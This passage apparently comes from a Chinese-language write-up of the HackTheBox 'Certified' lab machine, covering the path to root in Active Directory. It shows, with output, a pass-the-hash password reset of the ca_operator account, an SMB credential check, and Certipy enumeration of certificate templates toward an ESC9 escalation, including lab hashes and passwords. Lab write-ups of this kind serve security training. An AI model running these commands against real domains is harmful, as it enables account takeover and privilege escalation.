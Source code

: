 ## Root

![](./images/image-53.png)

management\_svc可以完全控制ca\_operator

尝试修改ca的密码

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# pth-net rpc password "ca_operator" "12345678" -U "certified.htb"/"management_svc"%"a091c1832bcdd4677c28b5a6a1295584":"a091c1832bcdd4677c28b5a6a1295584"  -S "DC01.certified.htb"
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```

检查是否修改成功

```
┌──(root㉿kali)-[/home/kali/Certified/PKINITtools]
└─# nxc smb 10.10.11.41 -u ca_operator -p 12345678 
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                                                                                                                
SMB         10.10.11.41     445    DC01   
```

### No Security Extension - ESC9

- [AD CS Domain Escalation | HackTricks](https://book.hacktricks.xyz/cn/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#id-5485)

是使用 `Certipy` 工具查找和获取与 `judith.mader@certified.htb` 用户相关的证书信息，并获取 `certified-DC01-CA` 证书颁发机构 (CA) 的配置

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad find -u judith.mader@certified.htb -p judith09 -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20241208202644_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20241208202644_Certipy.txt'
[*] Saved JSON output to '20241208202644_Certipy.json'
```
